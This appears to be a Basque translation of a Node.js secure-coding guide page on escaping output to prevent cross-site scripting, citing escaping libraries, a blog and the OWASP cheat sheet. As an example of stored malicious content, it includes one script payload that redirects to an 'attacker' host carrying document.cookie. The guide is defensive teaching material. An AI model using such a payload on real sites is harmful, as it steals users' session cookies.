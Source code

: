 # Ihes irteera

### Azalpena

HTML eta beste web lengoaia batzuek kode egikarigarriarekin nahasten dute edukia. HTML paragrafo bakar batek datuen irudikapen bisuala izan dezake JavaScript egikaritzeko argibideekin batera. HTMLa kargatzean edo APItik datuak itzultzean, gure ustez eduki hutsa denak JavaScript kodea har lezake, nabigatzaileak interpretatu eta egikaritzeko modukoa. Hori gertatzen da, adibidez, erasotzaile batek datu base batean txertatutako edukia kargatzen dugunean, adibidez `<div><script>//kode maltzurra</script></div>`. Hori arindu daiteke arakatzaileari aginduz konfiantzazko datuen zatiak edukitzat soilik tratatzeko eta inoiz ez interpretatzeko. Teknika horri ihes egitea deritzo. Npm liburutegi eta HTML txantiloi motor askok ihes egiteko baliabideak eskaintzen dituzte (adibidez: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/node-esapi))). HTML edukiak ez ezik CSSk eta JavaScriptek ere ihes egin beharko lukete



### Kode adibidea: ez jarri fidagarritasunik gabeko daturik zure HTMLan

```html
<script>...INOIZ EZ JARRI FIDAGARRIA EZ DEN KODEA HEMEN...</script>   zuzenean scriptean

 <!--...INOIZ EZ JARRI FIDAGARRIA EZ DEN KODEA HEMEN...-->             HTML komentario baten barruan

 <div ...INOIZ EZ JARRI FIDAGARRIA EZ DEN KODEA HEMEN...=test />       ezaugarri izen batean

 <INOIZ EZ JARRI FIDAGARRIA EZ DEN KODEA HEMEN... href="/test" />   tag izen batean

 <style>...INOIZ EZ JARRI FIDAGARRIA EZ DEN KODEA HEMEN...</style>   CSSan zuzenean

```

### Kode adibidea: datu base batean txerta daitekeen eduki kaltegarria

```html
<div>
  <b>Komentario bat</b>
  <script>
    window.location='http://attacker/?cookie='+document.cookie
</script>
</div>

```

<br/><br/>

### Blog aipua: "Pertsonaiak interpretatuak izatea nahi ez dugunean"

[benramsey.com](https://benramsey.com/articles/escape-output/) bloga:
> Datuak modu askotara irten daitezke  zure aplikaziotik: web nabigatzaile bati bidalitako HTML moduan, SQL datu basera bidalita, XML RSS irakurgailura bidalita, WML haririk gabeko gailu batera bidalita, etab. Aukerak mugagabeak dira. Horietako bakoitzak bere karaktere bereziak ditu, multzoka jasotzen dituena, eta  jasotako gainerako testu arruntaren aldean desberdin interpretatzen dena. Batzuetan, karaktere berezi horiek bidali nahi ditugu interpretatuak izan ahal izateko (HTML nabigatzaile batera bidalitako HTML etiketak, adibidez); beste batzuetan (erabiltzaileek edo beste iturri batzuek egindako sarreren kasuan), ez dugu nahi karaktere horiek interpretatuak izan daitezen, eta, beraz, ihes egin behar diegu.

> Ihes egiteari kodetzea ere esaten zaio batzuetan: ihes egitea edo kodetzea,  laburbilduz,, datuak egikaritu edo interpretatuko ez diren moduan irudikatzeko prozesua da, alegia. Adibidez, HTMLk honako testu hau letra lodiz idatziko du web nabigatzaile batean <strong>etiketek esanahi berezia dutelako:
<strong>Testu hau letra lodiz idatzita dago.<strong>
Baina, demagun etiketak nabigatzailean kargatu nahi ditudala eta haien interpretazioa ekidin nahi dudala. Orduan, HTMLan esanahi berezia duten parentesi angeluarretatik ihes egin behar dut. Hona hemen ihes egindako HTMLa:
&lt;strong&gt;Testu hau letra lodiz idatzita dago.&lt;/strong&gt;


<br/><br/>

### Blog aipua:  "OWASPek segurtasunera bideratutako kodeketa liburutegia erabiltzea gomendatzen du"

OWASP [XSS (Cross Site Scripting) Prebentzio tranpa orria](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) bloga:
> "Kodetzaile horiek idaztea ez da oso zaila, baina tranpa ugari daude ezkutuan. Adibidez, Javascripten bezalako lasterbide batzuk" erabiltzeko tentazioa izan dezakezu. Hala ere, balio horiek arriskutsuak dira, eta nabigatzailean habiaratutako analizatzaileek oker interpreta ditzakete. Baliteke  zuri ahaztea ihes egitea ihes pertsonaiarengandik, erasotzaileek erabil dezaketeena neutralizatzeko zure segurtasun ahaleginak. **OWASPek gomendatzen du segurtasunera bideratutako kodeketa liburutegiak erabiltzea, arauak behar bezala ezartzen direla ziurtatzeko**."

<br/><br/>

### Blog aipua: "Ihes sintaxia erabili behar duzu HTML zatian"

OWASP [XSS (Cross Site Scripting) Prebentzio tranpa orria](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) bloga:
> "Baina HTML entitate kodeketak ez du ondo funtzionatzen <script> etiketa baten barruan datu ez fidagarriak jartzen badituzu edozein lekutan, edo onmouseover bezalako gertaeren kudeatzailearen atributu batean edo CSS barruan, edo URL batean. Beraz, toki guztietan HTML entitate kodeketaren bat erabiltzen baduzu ere, ziurrena da XSSen erasoekiko zaurgarria izaten jarraituko duela. Ihes sintaxia erabili behar duzu fidagarriak ez diren datuak jartzen ari zaren HTML dokumentuaren zatian."
